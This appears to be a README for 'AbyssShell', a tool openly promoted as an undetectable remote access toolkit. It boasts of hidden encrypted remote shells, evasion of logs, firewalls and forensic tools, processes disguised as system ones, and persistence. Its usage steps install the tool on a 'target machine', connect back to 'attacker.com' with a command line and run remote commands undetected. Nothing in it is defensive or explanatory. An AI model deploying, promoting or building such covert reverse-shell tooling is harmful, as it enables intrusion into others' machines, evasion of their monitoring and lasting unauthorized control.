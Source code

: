 # AbyssShell  
_An undetectable, stealth remote access toolkit._  

### What It Does:  
- **Creates encrypted remote shells hidden inside normal system traffic**  
- **Avoids logs, firewall detection, and forensic traces**  
- **Disguises execution as legitimate system processes**  
- **Ensures persistence while remaining invisible to monitoring tools**  

### Who Is It For?  
_"A shell that cannot be found  
Is a shell that cannot be closed."_  

### How to Use:  
1. Deploy **AbyssShell** on a target machine:  
   ```bash
   ./abyss --install
2.  Establish a hidden connection back to your system:
 
  ./abyss --connect attacker.com

3.  Execute remote commands while remaining undetected:
 
  ./abyss --shell

4.  Ensure no logs, no traces, and no persistence indicators exist
